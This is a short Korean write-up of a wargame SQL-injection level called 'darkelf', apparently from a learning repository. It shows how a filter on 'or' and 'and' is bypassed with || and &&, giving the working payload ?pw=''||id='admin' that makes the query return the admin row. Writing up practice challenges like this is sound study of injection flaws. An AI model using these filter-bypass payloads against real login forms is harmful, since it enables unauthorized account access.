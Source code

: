 ## Q6. darkelf _ OR/AND 우회
<img src="/photo/prob_06.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: or / and <br> 문제 사항: 쿼리에 id=admin을 만들어내라.
### 해결책

```
현재 쿼리문에서 id='guest'로 고정되어 있음
=> pw에 id컬럼 만들어 admin 적용
=> or이 제한됨 
=> || 이용
```
```
해결 쿼리문: where id='guest' and pw=''||id='admin'
```
### CERT <br> ?pw=''||id='admin

### 느낀점
```diff
+ OR  -> ||
+ AND -> &&( %26%26 )
+ OR / AND 우회 방법을 배웠다.
```
